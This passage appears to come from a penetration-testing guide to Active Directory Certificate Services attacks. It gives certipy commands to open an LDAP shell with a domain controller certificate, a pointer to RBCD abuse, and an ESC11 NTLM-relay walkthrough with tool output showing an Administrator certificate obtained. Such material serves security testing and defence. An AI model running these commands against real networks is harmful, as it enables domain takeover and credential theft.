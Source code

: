 ```bash
certipy auth -pfx dc.pfx -dc-ip 172.16.126.128 -ldap-shell
```

Through the LDAP shell, commands such as `set_rbcd` enable Resource-Based Constrained Delegation (RBCD) attacks, potentially compromising the domain controller.

```bash
certipy auth -pfx dc.pfx -dc-ip 172.16.126.128 -ldap-shell
```

This vulnerability also extends to any user account lacking a `userPrincipalName` or where it does not match the `sAMAccountName`, with the default `Administrator@corp.local` being a prime target due to its elevated LDAP privileges and the absence of a `userPrincipalName` by default.

## Relaying NTLM to ICPR - ESC11

### Explanation

If CA Server Do not configured with `IF_ENFORCEENCRYPTICERTREQUEST`, it can be makes NTLM relay attacks without signing via RPC service. [Reference in here](https://blog.compass-security.com/2022/11/relaying-to-ad-certificate-services-over-rpc/).

You can use `certipy` to enumerate if `Enforce Encryption for Requests` is Disabled and certipy will show `ESC11` Vulnerabilities.

```bash
$ certipy find -u mane@domain.local -p 'password' -dc-ip 192.168.100.100 -stdout
Certipy v4.0.0 - by Oliver Lyak (ly4k)

Certificate Authorities
  0
    CA Name                             : DC01-CA
    DNS Name                            : DC01.domain.local
    Certificate Subject                 : CN=DC01-CA, DC=domain, DC=local
    ....
    Enforce Encryption for Requests     : Disabled
    ....
    [!] Vulnerabilities
      ESC11                             : Encryption is not enforced for ICPR requests and Request Disposition is set to Issue

```

### Abuse Scenario

It need to setup a relay server: 

``` bash
$ certipy relay -target 'rpc://DC01.domain.local' -ca 'DC01-CA' -dc-ip 192.168.100.100
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Targeting rpc://DC01.domain.local (ESC11)
[*] Listening on 0.0.0.0:445
[*] Connecting to ncacn_ip_tcp:DC01.domain.local[135] to determine ICPR stringbinding
[*] Attacking user 'Administrator@DOMAIN'
[*] Template was not defined. Defaulting to Machine/User
[*] Requesting certificate for user 'Administrator' with template 'User'
[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 10
[*] Got certificate with UPN 'Administrator@domain.local'
[*] Certificate object SID is 'S-1-5-21-1597581903-3066826612-568686062-500'
[*] Saved certificate and private key to 'administrator.pfx'
[*] Exiting...
```
